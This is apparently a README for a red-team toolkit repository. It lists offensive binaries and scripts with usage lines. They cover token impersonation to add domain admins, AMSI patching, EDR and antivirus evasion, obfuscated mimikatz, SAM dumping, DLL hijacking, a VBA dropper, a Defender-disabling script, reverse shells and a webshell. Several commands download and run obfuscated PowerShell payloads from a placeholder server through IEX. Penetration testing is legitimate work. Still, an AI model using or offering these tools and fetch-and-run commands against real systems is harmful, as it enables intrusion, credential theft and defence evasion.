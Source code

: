 # Red Team Arsenal

Some binaries/scripts that may be useful in red team/pentest exercises.

Most of the stuff here is far from fancy or the best solution possible, sorry :(... they just do the job and might come in handy for you in some way.

---

* addbyimpersonation.cpp: A modified version of sensepost's [impersonate](https://github.com/sensepost/impersonate) to only impersonate a token and add a new local admin/domain admin user to a computer/domain.
	*  `.\addbyimpersonation.exe list` to list tokens.
	*  `.\addbyimpersonation.exe adduser <token_ID> <username> <password> <server>` to add a new user impersonating the \<token_ID>. If \<server> is a DC, it will add a new domain user. If \<server> is a regular domain computer, it will add a new local user (SAM).
	*  `.\addbyimpersonation.exe addtodomaingroup <token_ID> <username> <domain_group> <server>` to add an existing domain user to a domain group.
	*  `.\addbyimpersonation.exe addtolocalgroup <token_ID> <username> <local_group> <server>` to add an existing local user/domain user to a local group (e.g. builtin "Administrators" group).
* GetNPUsers.exe: GetNPUsers.py from impacket compiled to .exe via pyinstaller.
* b_python.exe: BloodHound.py project compiled to .exe via cx\_Freeze. You may want to run this with `--disable-pooling` flag.
	* `.\b_python.exe -u <username> -p <pass> -d <domain> -dc <dc_fqdn> -gc <dc_fqdn> -ns <dc_ip> -c all --disable-pooling` 
* generate\_malicious\_lnk.ps1: Malicious .lnk generator (with wordpad.exe icon).
* CreateSymlink.exe: Precompiled "CreateSymlink.exe" from James Forshaw's
* html\_smuggling\_loader.html: A HTML smuggling template.
* hook\_detector.cs: EDR Hooks Detector in C#. Modify the code to include other win32 APIs.
* find\_cpassword\_sysvol.ps1: A simple ps1 script to search for "cpassword" references in SYSVOL folder.
* find\_pwd\_shared\_folder.ps1: A simple ps1 script to search for password/juicy references in a given shared folder. Modify `$ComputerName`, `$DomainName` and `$SharedFolder` variables accordingly.
* crackmapexec.exe: CrackMapExec compiled to .exe.
* crackmapexec_t.exe: CrackMapExec compiled to .exe with reduced entropy to bypass some specific EDRs (~~CS Falcon~~).
* AMSI\_bypass\_cross\_project.cpp: Patch AMSI in a given PID (C++). 
	* `.\AMSI_bypass_cross_project.exe <PID>`
* amsi\_patching\_go.go: Patch AMSI in a given PID (go). 
	* `.\amsi_patching_go.exe <PID>`
* amsipythonbypass.zip: AMSI patching implemented in Python. Extracted from FluidAttacks [post](https://fluidattacks.com/blog/amsi-bypass-python/).
* add\_user\_dll.cpp / adduser.dll: DLL that adds a new local admin user when loaded. Dynamically look up for local Administrators group name and add the user using windows APIs to avoid using net.exe/net1.exe.
* add\_user\_dll2.cpp: DLL that adds a new local admin user when loaded (via system(net.exe...) method).
* Invoke-Mimikatz.ps1: Powershell mimikatz with some minor bug fixes.
* SpoolSample.exe: SpoolSample precompiled binary (printerbug).
* bin\_to\_uuids.py: .bin to uuids converter, useful for UUID injection.
	* `python3 bin_to_uuids.py payload.bin`
* aes\_sektor7.py: AES256 encryption script extracted from Sektor7. Modified this to also save an `encrypted.bin` file that later may be imported as .rsrc in a maldev template. 
	* `python3 aes_sektor7.py payload.bin`, it will generate a encrypted.bin on /tmp.
* decrypt_aes.cpp: AESdecrypt sample.
* SharpPrintNightmare.exe: SharpPrintNightmare precompiled binary.
* obf-sharphound.ps1: SharpHound.ps1 obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-sharphound.ps1"); undertow -GdHcDvjN99 all`
* obf-pnightmare.ps1: PrintNightmare obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-pnightmare.ps1"); essentially -Dll "C:\Users\public\Desktop\adduser.dll"`
* obf-pup.ps1: Powerup obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-pup.ps1"); pave`
* rpivot.exe: rpivot.py compiled to .exe through cx\_freeze. Useful to establish SOCKS proxy communication in legacy powershell versions (e.g. v2).
	* `.\rpivot.exe --server-ip <IP> --server-port <PORT>`
	*  On remote server: `python3 server.py --server-IP <IP> --server-port <PORT> --proxy-ip 127.0.0.1 --proxy-port 1080`
* ch.exe: chisel.exe + limelighter project.
* netman\_sth.exe / netman\_sth\_x86.exe: A more stealth NetMan service trigger. Used to exploit a well known DLL hijacking when we have a writeable %PATH% directory in Windows Servers ([reference](https://itm4n.github.io/windows-server-netman-dll-hijacking/)). 
* WSuspicious.exe: WSUSpicious precompiled binary.
* Rubeus\_encrypted.exe: Rubeus encrypted by nimcrypt2.
* Rubeus.xml: Rubeus.xml to be executed with msbuild.exe.
* SharpKatz.xml: SharpKatz.xml to be executed with msbuild.exe.
* SharpPrintNightmare.exe: Precompiled SharpPrintNightmare.
* c.exe: Certify.exe + InvisibilityCloak obfuscation.
* dictionary.txt: Just a english dictionary to be appended on binaries to reduce entropy.
	* `cat dictionary.txt >> t.exe`
	* Check compressibility: `gzip -v -c t.exe > /dev/null`
* only\_sam\_dump.exe / only\_sam\_dump.py: Python script (compiled to .exe) to dump SAM/SYSTEM hives only. Based on secretsdump script. Created just to evade some EDR products.
* secretsdump.exe: secretsdump compiled to .exe via cx\_freeze.
* smbmap.exe: smbmap project compiled to .exe.
* weblogic\_pw\_decryptor.py: A decryptor to weblogic passwords contained in config.xml
* keytabextract.py: Python script to extract NTLM Hashes from KeyTab files
	* `./keytabextract.py <keytabfile>`
* mimi\_peruns\_fart.exe: A more stealth mimikatz.exe (donut + payload encryption + peruns fart applied)
* m\_obf2.exe: Mimikatz + Inceptor project
* mimikatz-nimcrypt2.exe: Mimikatz.exe encrypted with nimcrypt2 project
* dropper.vba: A simple VBA dropper. C# code extracted from .DOCX/.XLSX "comments" section (`ActiveDocument.BuiltInDocumentProperties("Comments").Value`)
* xor.cs: A XOR template in C#.
* CVE-2020-14882.py: Python script to exploit CVE-2020-14882.
* dwrite.dll: DLL used to exploit a DLL sideloading on Microsoft Teams (Microsoft Teams searches for this non-existent DLL on its startup).
* windows\_license.vbs: VBS to extract windows licenses... old content.
* disable-defender.ps1: A ps1 script to disable Windows Defender.
* dllinj.go: Process injection implemented in golang.
* screenshot.ps1: A ps1 script to take a desktop screenshot. Modify the `$File` variable to specify the location for saving the .bmp image.
* bleedhound.zip: An obfuscated version of BloodHound project.
* merge\_nessus\_files.py: Python script to merge multiple .nessus files.
* modshadowpass.sh: Useful to modify passwords when we have write privileges to /etc/shadow (this is NOT opsec-friendly :)
* reverse\_shell.py: A simple revshell in py... old content, you may want to use https://www.revshells.com/.
* reverse\_shell.sh: A simple revshell in sh... old content, you may want to use https://www.revshells.com/.
* systracing_cve-2020-0668.txt: Steps to reproduce CVE-2020-0668.
* webshell.aspx: ASP.NET webshell. A defined "AUTHKEY" is required to interact with it (line 8).

